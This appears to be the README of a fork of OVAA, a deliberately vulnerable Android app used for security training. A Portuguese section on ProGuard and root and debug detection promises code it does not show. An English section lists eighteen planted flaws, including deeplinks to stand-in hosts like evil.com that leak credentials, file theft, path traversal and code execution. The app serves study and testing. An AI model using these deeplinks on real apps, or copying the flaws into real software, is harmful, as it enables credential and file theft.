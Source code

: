 ## Description

 
# 🔒 Segurança no Aplicativo - ProGuard, Debug e Root Detection

Este projeto implementa diversas técnicas de segurança para **proteger contra engenharia reversa**, **detectar root e depuração**, além de **ativar a ofuscação de código com ProGuard**.

---

## 🚀 **Funcionalidades de Segurança Implementadas**
✅ **ProGuard ativado** para ofuscação de código  
✅ **Verificação de Debug (Prevenção de Análise)**  
✅ **Detecção de Root (Bloqueio de dispositivos rooteados)**  
✅ **Script para injetar segurança automaticamente**  

---

## 🔹 **1. Ativando o ProGuard (Ofuscação de Código)**

O **ProGuard** está ativado para garantir que o código seja **ofuscado**, dificultando a engenharia reversa.

📂 **Alterações no arquivo `app/build.gradle`**:
```gradle
buildTypes {
    release {
        minifyEnabled true  // 🔹 Ativa a ofuscação
        shrinkResources true // 🔹 Remove recursos não utilizados
        proguardFiles getDefaultProguardFile('proguard-android-optimize.txt'), 'proguard-rules.pro'
    }
}
```

📂 **Alterações no arquivo `proguard-rules.pro`**:

# 🔒 Impede que classes de segurança sejam removidas
-keep class oversecured.ovaa.activities.MainActivity { *; }

# 🔒 Ofusca todas as classes do app, exceto as Activities
-keep public class * extends android.app.Activity 
-dontwarn android.support.*

📌 Como testar se o código foi ofuscado?
Gere a versão release do APK:
```
./gradlew assembleRelease
```
Verifique o arquivo mapping.txt (gera os nomes ofuscados):
```
cat app/build/outputs/mapping/release/mapping.txt
```

🔹 2. Detecção de Debug (Proteção Contra Engenharia Reversa)
O app detecta se está sendo executado em um dispositivo rooteado e encerra a execução caso positivo.

📂 Alterações no MainActivity.java

Aproveite 🛡✨

###
OVAA (Oversecured Vulnerable Android App) is an Android app that aggregates all the platform's known and popular security vulnerabilities.

## List of vulnerabilities
This section only includes the list of vulnerabilities, without a detailed description or proof of concept. Examples from OVAA will receive detailed examination and analysis on [our blog](https://blog.oversecured.com/).

1. Installation of an arbitrary `login_url` via deeplink `oversecured://ovaa/login?url=http://evil.com/`. Leads to the user's user name and password being leaked when they log in.
2. Obtaining access to arbitrary content providers (not exported, but with the attribute `android:grantUriPermissions="true"`) via deeplink `oversecured://ovaa/grant_uri_permissions`. The attacker's app needs to process `oversecured.ovaa.action.GRANT_PERMISSIONS` and pass intent to `setResult(code, intent)` with flags such as `Intent.FLAG_GRANT_READ_URI_PERMISSION` and the URI of the content provider.
3. Vulnerable host validation when processing deeplink `oversecured://ovaa/webview?url=...`.
4. Opening arbitrary URLs via deeplink `oversecured://ovaa/webview?url=http://evilexample.com`. An attacker can use the vulnerable WebView setting `WebSettings.setAllowFileAccessFromFileURLs(true)` in the `WebViewActivity.java` file to steal arbitrary files by sending them XHR requests and obtaining their content.
5. Access to arbitrary activities and acquiring access to arbitrary content providers in `LoginActivity` by supplying an arbitrary Intent object to `redirect_intent`.
6. Theft of arbitrary files in `MainActivity` by intercepting an activity launch from `Intent.ACTION_PICK` and passing the URI to any file as data.
7. Insecure broadcast to `MainActivity` containing credentials. The attacker can register a broadcast receiver with action `oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA` and obtain the user's data.
8. Insecure activity launch in `MainActivity` with action `oversecured.ovaa.action.WEBVIEW`, containing the user's encrypted data in the query parameter `token`.
9. Deletion of arbitrary files via the insecure `DeleteFilesSerializable` deserialization object.
10. Memory corruption via the `MemoryCorruptionParcelable` object.
11. Memory corruption via the `MemoryCorruptionSerializable` object.
12. Obtaining read/write access to arbitrary files in `TheftOverwriteProvider` via path-traversal in the value `uri.getLastPathSegment()`.
13. Obtaining access to app logs via `InsecureLoggerService`. Leak of credentials in `LoginActivity` `Log.d("ovaa", "Processing " + loginData)`.
14. Use of the hardcoded AES key in `WeakCrypto`.
15. Arbitrary Code Execution in `OversecuredApplication` by launching code from third-party apps with no security checks.
16. Use of very wide file sharing declaration for `oversecured.ovaa.fileprovider` content provider in `root` entry.
17. Hardcoded credentials to a dev environment endpoint in `strings.xml` in `test_url` entry.
18. Arbitrary code execution via a DEX library located in a world-readable/writable directory.

---------------------------------------
*Licensed under the Simplified BSD License*

*Copyright (c) 2020, Oversecured Inc*

https://oversecured.com/
